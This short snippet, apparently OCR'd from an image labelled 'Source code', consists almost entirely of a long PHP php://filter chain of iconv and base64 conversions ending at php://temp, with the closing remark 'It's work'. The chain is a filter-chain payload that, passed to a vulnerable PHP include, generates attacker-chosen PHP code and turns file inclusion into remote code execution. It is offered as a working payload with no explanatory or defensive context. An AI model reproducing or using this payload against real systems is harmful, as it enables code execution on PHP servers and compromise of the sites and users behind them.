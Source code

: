 ```
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.WINDOWS-1258.UTF32LE|convert.iconv.ISIRI3342.ISO-IR-157|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```
It's work